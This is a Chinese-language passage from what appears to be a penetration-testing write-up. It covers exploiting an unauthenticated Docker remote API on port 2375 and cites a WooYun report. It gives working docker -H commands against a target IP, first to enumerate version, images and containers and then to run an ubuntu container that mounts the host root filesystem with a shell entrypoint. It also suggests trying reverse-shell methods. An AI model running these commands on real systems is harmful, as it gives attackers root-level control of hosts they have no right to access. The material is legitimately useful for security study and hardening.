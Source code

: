 ```
User-Agent: Docker-Client/1.7.0 (windows)
Content-Length: 0
Content-Type: application/json
Accept-Encoding: gzip
```
以上利用参考乌云漏洞库：[新浪微博docker](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)[ remote API](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)[未授权](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)[访问导致远程命令执行(root)](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)
 不知道为什么我做到start那一步就是成功不了，所以我只好换使用docker命令来执行：

## 使用docker命令连接：
1. 连接未授权机器，查看版本信息：
```
docker -H tcp://172.26.1.97:2375 version
```
查看其docker版本信息：
![图片](https://uploader.shimo.im/f/teVVhVPcElAoLaso.png!thumbnail)

1. 查看目标机器的镜像：
```
docker -H tcp://172.26.1.97:2375 images
```
截图：
![图片](https://uploader.shimo.im/f/FV8EV5NMq04itTzu.png!thumbnail)

1. 查看目标机器的容器：
```
docker -H tcp://172.26.1.97:2375 ps
```
截图：
![图片](https://uploader.shimo.im/f/Ob1J5jUKvSQn4mtz.png!thumbnail)

start 启动一个已经停止的容器

attach 连接一个已经停止的容器

1. 新运行一个容器并将entrypoint设置为/bin/bash或者/bin/sh，挂载点设置为服务器的根目录挂载至/tmp目录下（需要root权限启动docker）
```
docker -H tcp://172.26.1.97:2375 run -it -v /:/tmp --entrypoint /bin/sh ubuntu:18.04
```
截图：
![图片](https://uploader.shimo.im/f/HHNXBVSAoR8R20IJ.png!thumbnail)

尝试连接：

![图片](https://uploader.shimo.im/f/w91oCsUSjoUrjRIk.png!thumbnail)

当然我们也可以进行其他操作，linux下反弹shell的方法都可以试试

当目标机器的容器中有bash我们可以直接将entrypoint设置为/bin/bash

![图片](https://uploader.shimo.im/f/pI1wUuwVlZII6kd1.png!thumbnail)
